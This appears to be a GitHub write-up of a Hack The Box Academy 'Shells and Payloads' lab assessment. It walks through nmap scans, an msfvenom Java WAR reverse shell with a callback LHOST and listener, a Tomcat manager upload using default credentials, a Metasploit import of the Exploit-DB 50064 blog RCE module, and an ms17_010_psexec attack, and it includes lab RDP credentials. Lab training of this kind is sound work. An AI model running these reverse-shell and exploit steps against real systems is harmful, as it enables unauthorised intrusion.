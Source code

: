 Shells and Payloads

Live engagement:
 Scenario:
 CAT5's team has secured a foothold into Inlanefrieght's network for us. Our responsibility is to examine the results from the recon that was run, validate any info we deem necessary, research what can be seen, and choose which exploit payloads, and shells will be used to control the targets. Once on the VPN or from your Pwnbox, we will need to RDP into the foothold host and perform any required actions from there. Below you will find any credentials, IP addresses, and other info that may be required.


Objectives:
 Demonstrate your knowledge of exploiting and receiving an interactive shell from a Windows host or server.
 Demonstrate your knowledge of exploiting and receiving an interactive shell from a Linux host or server.
 Demonstrate your knowledge of exploiting and receiving an interactive shell from a Web application.
 Demonstrate your ability to identify the shell environment you have access to as a user on the victim host.


Foothold IP: 10.129.204.1

  Host-01: 172.16.1.11
  
 
  Host-02: blog.inlanefreight.local

  
  Host-03: 172.16.1.13

machine::
  
  IP == 10.129.204.126

  
  Username == the-student

  
  Password == HTB_@cademy_stdnt!



let's get started
  first, we need to connect RDP by using xfreerdp
     xfreerdp /v:<target IP> /u:htb-student /p: HTB_@cademy_stdnt!

  What is the hostname of Host-1? (Format: all lowercase)
 
  for this let's initiate an Nmap scan to find the hostname: 

     
     sudo nmap -sCV -O -Pn 172.16.1.11 
 
 ![Screenshot 2023-07-04 at 17 22 34](https://github.com/darshilthummar/hackthebox/assets/49148722/fa2d2b34-1582-4194-888a-48d62ee631e3)

 
 as we can see there are lots of ports open, scroll down and we can see the hostname 'shells-wins


![Screenshot 2023-07-04 at 17 23 03](https://github.com/darshilthummar/hackthebox/assets/49148722/122928fe-63c2-483c-a5c0-7000c6169ade)

as per the result that finds that host is running windows



Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lowercase)

 
 as we have lots of information about the host so lest plan our attack to find the exploit. The host is ruing the Apache tomcat server so we have to find an exploit which runs on Java lang.
first, we need to start Metasploit 


   msfconsole 

 
   search auxiliary/scanner/HTTP/tomcat_mgr_upload

![Screenshot 2023-07-08 at 20 22 40](https://github.com/darshilthummar/hackthebox/assets/49148722/3543c429-f135-48a7-bfe7-a91229fe795d)



![Screenshot 2023-07-09 at 08 25 16](https://github.com/darshilthummar/hackthebox/assets/49148722/11c1834a-e654-490d-9730-ccb34a8e45ee)


Fill in the requirement and exploit.

 
But it not working. so let's try a manual exploit.


We need to create the first payload by using msfvenom


  msfvenom -l payloads | grep java

![Screenshot 2023-07-08 at 20 36 23](https://github.com/darshilthummar/hackthebox/assets/49148722/53b45d65-8fcf-411a-afcb-ed690ef83a8b)


We are going to use 'java/jsp_shell_reverse_tcp'


let's find out the options

 
   msfvenom -p java/jsp_shell_reverse_tcp - list-options

 
 ![Screenshot 2023-07-09 at 08 29 56](https://github.com/darshilthummar/hackthebox/assets/49148722/42ee20dd-21c6-4cf7-803f-c65ded83aab2)


it only requires a host and port


let's set the payload 


   msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9001 -f war -o shell.war


![Screenshot 2023-07-09 at 08 31 28](https://github.com/darshilthummar/hackthebox/assets/49148722/fac1c00b-84dd-4651-b92c-2267f2a73b38)

 
now we have to create a listener port 


 we use msfconsole multi/handler

   ![Screenshot 2023-07-09 at 08 36 04](https://github.com/darshilthummar/hackthebox/assets/49148722/6e23b1cd-1de5-4ba7-8bcf-e855ef804ee3)


set payload java/jsp_shell_reverse_tcp
 set LHOST 172.16.1.5
 set LPORT 9001
 run

 
now we have to upload the shell into the site and execute the file, for that, we need to login into the manage page
 as we have credentials, let's login by using that credentials:
" tomcat | Tomcatadm "

![Screenshot 2023-07-09 at 08 37 48](https://github.com/darshilthummar/hackthebox/assets/49148722/6502e758-687d-4463-bb53-3cee0d8da0f6)


now upload the shell find and click on it and execute then wait for the connection.


![Screenshot 2023-07-09 at 08 38 02](https://github.com/darshilthummar/hackthebox/assets/49148722/e6b58e6a-233d-4ec3-9198-89d0034932b7)


![Screenshot 2023-07-09 at 08 38 51](https://github.com/darshilthummar/hackthebox/assets/49148722/1e84b97c-6c4f-41bd-9f6b-1171ca42947e)

as we establish a connection jump into C:\Shares directly


![Screenshot 2023-07-09 at 08 40 08](https://github.com/darshilthummar/hackthebox/assets/49148722/54347067-09c7-46bd-9488-dba204edc750)


What distribution of Linux is running on Host-2? (Format: distro name, all lowercase)


let's scan host-02 for that we need ip add.


search on hotsts file. 


![Screenshot 2023-07-09 at 08 42 04](https://github.com/darshilthummar/hackthebox/assets/49148722/9a39e7e7-2b2d-4e5f-b58a-49105c0ba67a)


  nmap -sCV -O 172.16.1.12


  ![Screenshot 2023-07-09 at 08 43 57](https://github.com/darshilthummar/hackthebox/assets/49148722/b3daa497-893a-4ea2-9221-13c7495c1dc2)


as we see from the result the host is running Ubuntu


What language is the shell written in that gets uploaded when using the 50064?rb exploit?


![Screenshot 2023-07-09 at 08 45 09](https://github.com/darshilthummar/hackthebox/assets/49148722/ee543eb5-7e5c-4b5f-9e18-787c9277535d)


is running on PHP


Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt


for this, we need to import the 50064.rb into Metasploit.


first, we need to find the path that we need to put this file

 
 searchsploit 50064.rd
 

this will help to identify the exploit file path.


 Lightweight Facebook-styled blog 1.3 - Remote Code Execution (RC | php/webapps/50064.rb,


let's jump to the Metasploit directory.


 creat php dir under exploit dir, then creat webapps under php dir.


cp the file 50064.rb and pest to webapps dir.


run msfconsole 

 
 run reload_all to reload all exploits


use exploit/php/web apps


![Screenshot 2023-07-09 at 12 47 19](https://github.com/darshilthummar/hackthebox/assets/49148722/627c861d-cdf2-4cea-b891-bf20ea8c4e40)


Search all options and fill in with given creds then run.


![Screenshot 2023-07-09 at 12 55 58](https://github.com/darshilthummar/hackthebox/assets/49148722/79828f39-5e19-4593-97cd-46c37963eb2f)


as we see it make a connection with the 172.16.1.12 host with a blind shell


jump to cd ./customscripts/


![Screenshot 2023-07-09 at 12 48 56](https://github.com/darshilthummar/hackthebox/assets/49148722/ca1a6a5b-13dd-4cd7-8de6-41148885a7bf)


here is the flag.txt


What is the hostname of Host-3?


same scan with Nmap with -O tag for the hostname.


![Screenshot 2023-07-09 at 12 57 36](https://github.com/darshilthummar/hackthebox/assets/49148722/07c1c97a-f46a-44b9-9406-007b61047e01)


as we can see list of ports are open


445 is open we can use exploit


![Screenshot 2023-07-09 at 12 57 46](https://github.com/darshilthummar/hackthebox/assets/49148722/35e39740-57c3-4591-8591-30b3ee8f10b1)


Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt

 
Search ms17 host using Windows.


 ![Screenshot 2023-07-09 at 13 53 53](https://github.com/darshilthummar/hackthebox/assets/49148722/60a695b2-c3a5-462d-869e-b404073a5b81)


use ms17_010_psexec


set all requirements and run.


![Screenshot 2023-07-09 at 13 54 13](https://github.com/darshilthummar/hackthebox/assets/49148722/5f6fcf20-7beb-476d-9b77-4b2020255563)


as we get the connection


jump into C:\Users\Administrator\Desktop\


![Screenshot 2023-07-09 at 13 54 53](https://github.com/darshilthummar/hackthebox/assets/49148722/94196bcc-6e5b-4fca-8b00-9c50324fb839)


we get Skills-flag.txt



references

https://hackingvision.com/2017/02/18/installing-metasploit-modules/

https://www.exploit-db.com/exploits/50064

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

